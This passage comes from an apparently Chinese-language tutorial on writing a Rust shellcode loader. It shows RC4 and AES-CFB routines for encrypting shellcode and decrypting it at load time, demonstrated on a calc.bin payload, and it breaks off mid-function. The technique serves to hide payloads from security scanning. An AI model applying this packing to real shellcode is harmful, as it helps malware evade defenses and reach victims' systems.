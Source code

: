 ```plain

    base64::encode(&mut result)
}

fn dec(b64: &str, key: &str) -> Vec<u8> {
    let mut result = match base64::decode(b64) {
        Ok(result) => result,
        _ => "".as_bytes().to_vec(),
    };

    let mut rc4 = Rc4::new(key.as_bytes());

    let mut shellcode: Vec<u8> = repeat(0).take(result.len()).collect();
    rc4.process(&mut result[..], &mut shellcode);

    shellcode
}
```

### AES-CFB 加密

Rust 要实现 AES 加密与加密也需要引入依赖，在`Cargo.toml`文件中添加下面的依赖。

```plain
[dependencies]
aes="0.7.5"
hex="0.4.3"
block-modes="0.8.1"
hex-literal="0.3.3"
```

下面是实现 AES-CFB 加解密的代码，在加密的函数中最终返回的是 Hex 编码后的字符串，而解密函数最终返回的是 Vec 数组，同样是为了方便在 shellcode loader 中读取加密后的 shellcode 以及加载解密后的 shellcode。

```plain
use aes::Aes128;
use block_modes::block_padding::Pkcs7;
use block_modes::{BlockMode, Cfb};
use hex::encode;
use hex_literal::hex;

type Aes128ECfb = Cfb<Aes128, Pkcs7>;

fn main() {
    let shellcode = include_bytes!("..\\calc.bin").as_slice();
    let key = "gWW8QklFyVIQfpDN";
    let iv = hex!("57504c385a78736f336b4946426a626f");

    println!("==128-bit AES CFB Mode==");
    println!("Key: {}", key);
    println!("iv: {}", encode(iv));

    let encrypted = enc(shellcode, key, iv);
    println!("\nEncrypted: {}", encrypted);

    let decrypted = dec(encrypted.as_str(), key, iv);
    println!("\nDecrypted: {:?}", decrypted);
}

fn enc(shellcode: &[u8], key: &str, iv: [u8; 16]) -> String {
    let key = key.as_bytes().to_vec();

    let cipher = Aes128ECfb::new_from_slices(key.as_slice(), iv.as_slice()).unwrap();

    let pos = shellcode.len();
```